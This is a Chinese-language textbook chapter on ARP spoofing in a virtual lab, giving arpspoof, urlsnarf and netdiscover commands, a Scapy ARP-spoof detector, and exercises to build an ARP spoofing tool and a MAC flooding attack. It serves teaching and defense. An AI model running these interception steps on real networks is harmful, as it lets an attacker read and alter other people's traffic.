





## **2

**通过 ARP 欺骗捕获流量**

*不要理会帘子后面的那个人！*

–诺埃尔·兰格利，*《绿野仙踪》*


任何进入咖啡店并连接到其 Wi-Fi 网络的人，都可以使用一种叫做 *ARP 欺骗* 的技术来拦截并查看其他用户未加密的网络流量，这种技术利用了地址解析协议（ARP）设计中的漏洞。在本章中，我们将解释 ARP 的工作原理，描述 ARP 欺骗攻击的步骤，并且亲自进行一次攻击。

### 互联网如何传输数据

在我们讨论 ARP 欺骗之前，必须首先理解互联网的基本结构。本节描述了互联网如何通过分层网络使用数据包、MAC 地址和 IP 地址来传输数据。

#### *数据包*

互联网上的所有信息都是以*数据包*的形式传输的。你可以把数据包看作一个包含你要发送的数据的信封。和邮政系统一样，这些数据包会根据指定的地址被路由到目的地。图 2-1 显示了信封和数据包之间的一些相似之处。



*图 2-1：信封和数据包的相似之处*

信封上的发件人地址部分包含两个关键信息：1）发送信件的人的名字，2）他们住在哪里。同样，数据包也有一个源地址（*媒体访问控制 [MAC] 地址*），代表发送数据包的机器，以及一个源地址（*IP 地址*），代表数据包来自哪里。其他类似的字段被称为*数据包头*，它们代表数据包的目的地。

互联网使用名为*路由器*的设备来分类和转发数据包。数据包在互联网上传输，从一个路由器到另一个路由器，就像邮件从一个邮局到另一个邮局。

#### *MAC 地址*

你的笔记本电脑包含一个*网络接口卡（NIC）*，允许它连接到 Wi-Fi 路由器。这个卡有一个唯一的地址，叫做 MAC 地址，它标识你的机器在网络中的位置。当路由器要发送信息到你的电脑时，它会把这个数据包标记上你笔记本电脑的 MAC 地址，然后将其广播成无线电信号。所有连接到这个路由器的机器都会接收到这个无线电信号，并检查数据包的 MAC 地址，看看这个数据包是否是为它们准备的。MAC 地址通常是 48 位的数字，用十六进制表示（例如，08:00:27:3b:8f:ed）。

#### *IP 地址*

你可能已经知道，IP 地址也用于标识网络中的计算机。那么，为什么我们需要 IP 地址和 MAC 地址两者呢？原因是，网络由层级区域组成，类似于某些国家被划分为州，而州内又包含城市。IP 地址遵循一种结构，使其能够标识设备在更大网络中的位置。如果你搬到了另一个咖啡店，你的笔记本电脑将被分配一个新的 IP 地址来反映它的新位置；然而，你的 MAC 地址将保持不变。

IPv4 地址将网络层级信息编码为一个 32 位数字。这个数字通常以四个由点分隔的部分表示（如 192.168.3.1）。每个部分代表一个 8 位二进制数。例如，192.168.3.1 中的 3 实际上代表的是 8 位二进制数 00000011。

同一层级区域中的 IP 地址也共享相同的上层位。例如，所有位于弗吉尼亚大学校园的计算机 IP 地址都类似于 128.143.xxx.xxx。你也会看到这种地址以无类域间路由（CIDR）表示法写作 128.143.1.1/16，表示这些计算机共享相同的 16 位上层位，或者说前两个数字。由于 IP 地址遵循特定的结构，路由器可以利用 IP 地址的部分信息来决定如何通过层级结构路由数据包。图 2-2 展示了这一路由器层级结构的简化示例。



*图 2-2：网络层级的简化视图*

图 2-2 还展示了一个*数字用户线接入多路复用器（DSLAM）*。DSLAM 允许与互联网流量相关的信号通过最初用于有线电视的电缆传输。DSLAM 区分互联网信号和电视信号，这就是为什么你可以将电视和路由器连接到同一个电缆插座的原因。

让我们以咖啡店的例子来跟踪数据包在网络层级中的传递。假设你在旧金山的一家咖啡店，访问以下网页：*[`www.cs.virginia.edu`](http://www.cs.virginia.edu)*。这个网页托管在一个 IP 地址为 128.143.67.11 的 web 服务器上。在它的旅程的第一段，网页请求经过你的笔记本电脑的网络接口卡（NIC），然后发送到咖啡店的 Wi-Fi 路由器。路由器接着将网页请求发送到 DSLAM，再由它转发到由 *互联网服务提供商（ISP）*（如 Comcast）拥有的路由器。Comcast 路由器随后将 IP 地址与前缀列表进行比较，直到找到匹配项。例如，它可能会找到匹配项为前缀 128.xxx.xxx.xxx，表示它与该层级的某一部分连接。随着请求在层级结构中传递，匹配会变得更加具体。例如，地址将需要匹配 128.143.xxx.xxx，然后是 128.143.67.xxx。当数据包到达层级结构的最低层，那里没有更多的路由器时，路由器使用数据包中的 MAC 地址来确定请求的最终目的地。我们将层级结构的最低层称为 *局域网（LAN）*，因为该层级中的所有机器都通过一个单一的路由器连接。

现在我们对互联网的结构有了一个大致的了解，可以讨论发生在层级结构最低层的攻击。

#### *ARP 表*

我们已经确认，在数据包到达其指定的 LAN 后，网络会使用数据包的 MAC 地址来确定其最终目的地。但路由器如何知道 IP 地址为 128.143.67.11 的机器的 MAC 地址呢？这时 ARP 就派上用场了。根据 ARP，路由器会向网络上的所有机器发送一个叫做 *ARP 查询* 的消息，要求 IP 地址为 128.143.67.11 的机器回复一个包含其 MAC 地址的 *ARP 响应*。路由器随后会将这个 IP 地址和 MAC 地址的映射存储在一个特殊的表中，这个表叫做 *ARP 表*。通过将这些信息存储在 ARP 表中，路由器减少了未来发出 ARP 查询的需求。

**快速版**

MAC 地址用来识别你是谁，IP 地址用来识别你在哪里，而 ARP 表则管理你是谁和你在网络上在哪里之间的映射。在 ARP 欺骗攻击中，我们假装是另一个人。

### ARP 欺骗攻击

ARP 欺骗攻击分为两个阶段。在第一阶段，攻击者向受害者发送一个虚假的 ARP 响应，声明攻击者的 MAC 地址映射到路由器的 IP 地址。这使得攻击者能够欺骗受害者，使其相信攻击者的机器就是路由器。在第二阶段，受害者接受攻击者发送的虚假 ARP 数据包，并更新其 ARP 表中的映射，将攻击者的 MAC 地址映射到路由器的 IP 地址。这意味着受害者的互联网流量将发送到攻击者的机器，而不是路由器。攻击者的机器随后可以在检查这些信息后将其转发给路由器。

如果攻击者还希望拦截原本发送给受害者的互联网流量，攻击者必须欺骗路由器将流量发送到攻击者处。因此，攻击者必须创建一个虚假的 ARP 数据包，表明受害者的 IP 地址映射到攻击者的 MAC 地址。这允许攻击者拦截并检查传入的互联网流量，然后将这些流量转发给受害者。

我们可以通过一个简单的图示来解释 ARP 欺骗攻击的原理，如图 2-3 所示。在这里，简（攻击者）将艾丽丝（受害者）骗到将她的邮件寄给简。



*图 2-3：涉及邮递员的欺骗攻击示例*

ARP 欺骗攻击是*中间人攻击*的一个例子，因为攻击者将自己置于受害者和路由器之间。

### 执行 ARP 欺骗攻击

让我们进行一次 ARP 欺骗攻击。首先，您必须确保在开始攻击之前已启动 pfSense、Kali 和 Metasploitable 虚拟机。请访问第一章获取相关指导。现在让我们安装进行 ARP 欺骗攻击所需的工具。在 Kali Linux 虚拟机上打开终端，并安装`dsniff`工具。Kali Linux 虚拟机的默认密码是“kali”。首先运行`**sudo -i**`以成为 root 用户。您还需要通过运行`**apt-get update**`来更新`apt-get`包管理器。

```
kali@kali:~$ sudo -i
kali@kali:~$ apt-get update
kali@kali:~$ apt-get install dsniff
```

`dsniff`工具包含多个有用的工具，用于拦截网络流量，比如`arpspoof`，这是一个执行 ARP 欺骗攻击的工具。

我们必须发现网络中其他机器的 IP 地址，以便进行*欺骗*（即，冒充它们）。运行`netdiscover`工具，使用以下命令：

```
kali@kali:~$ sudo netdiscover
```

`netdiscover` 通过使用 ARP 查询扫描网络。它会对子网中的所有可能的 IP 地址发出 ARP 查询，当网络中的一台机器响应时，它会记录并显示该机器的 MAC 地址和 IP 地址。`netdiscover` 工具还会根据 MAC 地址推测网卡制造商。由于所有 MAC 地址必须是唯一的，因此电气和电子工程师协会（IEEE）的中央委员会会为制造商分配一段 MAC 地址范围，以确保唯一性。

你的扫描应该能检测到网络中的两台机器，并生成如下输出：

```
IP                At MAC Address     Count     Len  MAC Vendor / Hostname

-----------------------------------------------------------------------------

192.168.100.1     08:00:27:3b:8f:ed      1      60  PCS Systemtechnik GmbH

192.168.100.101   08:00:27:fe:31:e6      1      60  PCS Systemtechnik GmbH
```

返回的实际 IP 地址会根据你的设置有所不同。通常，最低的 IP 地址是局域网中的路由器。我们将在本章其余部分将此 IP 地址称为 *<ROUTER_IP>*。第二个 IP 地址属于 Metasploitable 虚拟机（我们的受害者），我们将其称为 *<VICTIM_IP>*。一旦你发现了这两台机器，按 CTRL-C 结束扫描。

接下来，你需要允许 Kali Linux 机器代表其他机器转发数据包，通过启用 IP 转发功能。确保你是 Kali Linux 的 root 用户，然后通过设置 IP 转发标志来启用 IP 转发：

```
kali@kali:~$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

现在你已启用 IP 转发，你需要欺骗受害者，让它相信你就是路由器。通过发出假的 ARP 回复，声明你的 MAC 地址映射到路由器的 IP 地址来实现这一点。图 2-4 展示了攻击中这一步骤的示例。



*图 2-4：ARP 欺骗攻击的第一阶段*

你可以通过运行以下命令生成多个假的 ARP 回复：

```
arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>
```

`-t` 标志指定目标，`-i` 标志表示接口。你的网卡支持多种连接网络的方式。例如，`wlan` 代表无线局域网（Wi-Fi 连接），`eth0` 代表以太网连接。在这个虚拟实验环境中，机器是通过以太网虚拟连接的，因此你将使用 `eth0` 作为你的接口。在咖啡馆环境中，接口将设置为 `wlan`。

以下代码片段展示了运行 `arpspoof` 的结果。你需要生成多个假的 ARP 回复，以确保表格始终更新为错误信息。该工具会为你生成多个数据包，所以你只需运行一次。

```
kali@kali:~$ sudo arpspoof -i eth0 -t 192.168.100.101 192.168.100.1

[sudo] password for kali:

8:0:27:1f:30:76 8:0:27:fe:31:e6 0806 42: arp reply 192.168.100.1 is-at 8:0:27:1f:30:76 ➊

8:0:27:1f:30:76 8:0:27:fe:31:e6 0806 42: arp reply 192.168.100.1 is-at 8:0:27:1f:30:76
```

让我们来查看命令的输出，特别关注第一行 ➊。这一行表示刚刚发送的数据包中的信息摘要。该摘要由五个关键部分组成：

1\. `8:0:27:1f:30:76` 是 Kali Linux 机器（攻击者）的 MAC 地址，它创建了这个数据包。

2\. `8:0:27:fe:31:e6` 是将接收数据包的机器（受害者）的 MAC 地址。

3\. `0806` 是类型字段，表示以太网帧中包含 ARP 数据包。

`42` 代表与以太网帧相关的总字节数。

5\. 剩余部分，`arp reply 192.168.100.1 is-at 8:0:27:1f:30:76`，是对 ARP 回复的总结，错误地声明路由器的 IP 地址（`192.168.100.1`）与 Kali Linux 机器的 MAC 地址（`8:0:27:1f:30:76`）相关联。

您还必须欺骗路由器，让它相信您是受害者，这样您就可以代表受害者拦截传入的互联网流量。打开一个新终端并运行以下命令。请注意，*<ROUTER_IP>* 和 *<VICTIM_IP>* 现在已经交换了位置。这是因为您现在正在生成数据包，欺骗路由器让它相信您是受害者：

```
kali@kali:~$ arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>
```

现在您已经欺骗了受害者和路由器，您可以对拦截到的数据包做些什么呢？让我们检查一下我们拦截到的数据包，并从中提取 URL。这将允许我们生成受害者访问的免费网站列表。通过在新终端中运行以下命令来提取 URL：

```
kali@kali:~$ urlsnarf -i eth0
```

您还可以在受害者机器上生成一些互联网流量。使用 **msfadmin** 作为用户名和密码登录 Metasploitable 虚拟机，然后输入以下命令生成一个到 *[google.com](http://google.com)* 的 Web 请求：

```
msfadmin@metasploitable:~$ wget http://www.google.com
```

图 2-5 展示了此步骤中发生情况的概览。



*图 2-5：ARP 欺骗攻击的第二阶段，受害者使用损坏的 ARP 表来处理数据包*

如果您一切顺利，经过几分钟后，关联 Web 请求的 URL 会出现在终端中。耐心等待；解析数据包需要一些时间：

```
kali@kali:~$ sudo urlsnarf -i eth0
urlsnarf: listening on eth0 [tcp port 80 or port 8080 or port 3128]

192.168.100.101 - - "GET http://www.google.com/ HTTP/1.0"

```

看看这个输出。虽然我们这里只显示了 URL，但攻击机正在捕获受害者从互联网发送和接收的所有数据包。这意味着攻击者可以看到受害者通过网络发送的任何未加密的信息。这也意味着攻击者可以修改数据包，向机器注入恶意代码。

完成恶意操作后，不要让 ARP 表保持在损坏状态。在攻击者离开咖啡店后，受害者将无法连接到互联网，并且他们会怀疑有恶意行为发生。在关闭攻击之前，您必须将 ARP 表恢复到原始配置。幸运的是，`arpspoof` 会为我们完成这项工作。通过在两个运行 `arpspoof` 的终端中按 CTRL-C 来关闭攻击。

**保护自己免受 ARP 欺骗攻击**

尽管防止 ARP 欺骗攻击很困难，但加密你的互联网流量有助于保护你的信息免受窃取或篡改。任何通过 HTTPS 连接发送的流量都会被加密。然而，手动检查确保你访问的每个 URL 都使用 HTTPS 很麻烦，所以电子前沿基金会（*eff.org*）创建了一个浏览器插件（适用于 Chrome、Edge、Firefox 和 Opera），名为 HTTPS Everywhere，它确保所有你的网页流量都通过 HTTPS 连接。安装这个插件是保护自己的一个好方法。

### 检测 ARP 欺骗攻击

在这一节中，我们将编写一个 Python 程序来启发式地检测 ARP 欺骗攻击。我们将使用字典构建自己的 ARP 表，然后检查我们接收到的数据包是否修改了某个条目。我们假设任何修改我们表格状态的数据包都是恶意的。

我们将首先选择一个既能拦截又能解析通过网卡传输的数据包的库。Scapy 是一个流行的 Python 包，允许我们读取和发送数据包。在你使用 Scapy 之前，你需要使用 `pip3` 安装它。使用以下命令获取 `pip3` 和 Scapy：

```
kali@kali:~$ sudo apt-get install python3-pip
kali@kali:~$ pip3 install --pre scapy[basic]
```

安装 Scapy 后，你可以导入 `sniff` 库，它允许我们捕获并检查通过网卡传输的数据包。将以下 Python 程序（*arpDetector.py*）复制并粘贴到 Mousepad 或你选择的代码编辑器中。要启动 Mousepad，运行 `**mousepad &**`。

```
from scapy.all import sniff
IP_MAC_Map = {}

def processPacket(packet):

    src_IP = packet['ARP'].psrc

    src_MAC = packet['Ether'].src

    if src_MAC in IP_MAC_Map.keys():

        if IP_MAC_Map[src_MAC] != src_IP :

            try:

                old_IP =  IP_MAC_Map[src_MAC]

            except:

                old_IP = "unknown"

            message = ("\n Possible ARP attack detected \n "

                        + "It is possible that the machine with IP address \n "

                        + str(old_IP) + " is pretending to be " + str(src_IP)

                         +"\n ")

            return message
    else:

        IP_MAC_Map[src_MAC] = src_IP

➊ sniff(count=0, filter="arp", store = 0, prn = processPacket)
```

Scapy 库中的 `sniff()` 函数 ➊ 接受多个可选参数。在这个实现中，我们使用 `count` 参数来表示要捕获的数据包数量。`count` 的值为 0 表示库会持续捕获数据包。我们还使用 `filter` 参数来指定要捕获的数据包类型。因为我们只对 ARP 数据包感兴趣，所以指定过滤器值为 `"arp"`。`store` 参数表示要存储的数据包数量。我们将该参数设置为 0，因为我们不希望通过存储数据包浪费内存。最后，`prn` 参数是一个功能指针，指向每次接收到数据包时调用的函数。它接受一个参数，表示接收到的数据包。

```
kali@kali:~$ sudo python3 arpDetector.py
```

当程序运行时，打开另一个 Kali 终端并执行 ARP 欺骗攻击。

然后，通过按下 CTRL-C 来终止攻击。这将导致 `arpspoof` 发送恢复 ARP 表的包。当你的 Python 程序检测到这些数据包时，你将看到类似以下的消息：

```
Possible ARP attack detected
It is possible that the machine with IP address

192.168.0.67 is pretending to be 192.168.48.67
```

### 练习

通过尝试以下练习，深入理解 ARP 欺骗和转发，练习按难度递增排序。第一个练习只需要运行一个命令，而第二个更具挑战性，因为它要求你编写一个 Python 程序并加深对 Scapy 库的理解。最后一个练习将提示你应用本章学到的基础知识，执行一种新的攻击。

#### *检查 ARP 表*

通过运行以下命令检查 Metasploitable 虚拟机上的 ARP 表：

```
msfadmin@metasploitable:~$ sudo arp -a
```

比较 Metasploitable 服务器在 ARP 欺骗攻击前后的 ARP 表状态。你是否注意到任何差异？如果有，哪些条目发生了变化？

#### *在 Python 中实现 ARP 欺骗工具*

在本章中，我们讨论了如何执行 ARP 欺骗攻击。在此练习中，你将编写一个 Python 程序，使你能够通过一个命令执行 ARP 欺骗攻击，如下所示：

```
kali@kali:~$ sudo python3 arpSpoof.py <VICTIM_IP>  <ROUTER_IP>
```

为此，你需要编写一个程序，执行本章讨论的步骤。你的程序应生成伪造的 ARP 数据包，并将其发送到受害者和路由器。一旦攻击完成，程序应将 ARP 表恢复到原始状态。用 Python 编写你的程序（*arpSpoof.py*），并使用 Scapy 库构建和发送数据包。我们在此提供了一个框架代码：

```
   from scapy.all import *

   import sys

➊ def arp_spoof(dest_ip, dest_mac, source_ip):

       pass

➋ def arp_restore(dest_ip, dest_mac, source_ip, source_mac):

       packet= ➌ ARP(op="is-at", hwsrc=source_mac,

                       psrc= source_ip, hwdst= dest_mac, pdst= dest_ip)

     ➍ send(packet, verbose=False)

    def main():

        victim_ip= sys.argv[1]

        router_ip= sys.argv[2]

        victim_mac = getmacbyip(victim_ip)

        router_mac = getmacbyip(router_ip)

        try:

           print("Sending spoofed ARP packets")

           while True:

              arp_spoof(victim_ip, victim_mac, router_ip)

              arp_spoof(router_ip, router_mac, victim_ip)

        except KeyboardInterrupt:

           print("Restoring ARP Tables")

           arp_restore(router_ip, router_mac, victim_ip, victim_mac)

           arp_restore(victim_ip, victim_mac, router_ip, router_mac)

           quit()

    main()
```

实现`arp_spoof()`函数➊。该函数应与`arp_restore()`➋非常相似，后者用于将 ARP 表恢复到其原始状态。你可以参考`arp_restore()`作为指南。在该函数中，我们创建一个新的 ARP 数据包。`ARP()`函数➌接收多个选项（`op`）。其中，`"is-at"`选项表示 ARP 回复，而`"who-has"`选项表示 ARP 请求。你也可能会看到这些选项分别以数字 2 和 1 表示。最后，我们发送我们创建的数据包➍。

#### *MAC 泛洪*

*内容寻址存储器（CAM）* 是路由器和交换机中使用的存储硬件。在交换机中，这些存储器将 MAC 地址映射到相应的端口。因此，CAM 只能存储有限数量的条目。如果交换机的 CAM 已满，它将通过所有端口广播消息。攻击者可以通过向交换机发送带有随机 MAC 地址的数据包来强制交换机执行这种行为。编写一个 Scapy 程序来执行此攻击。
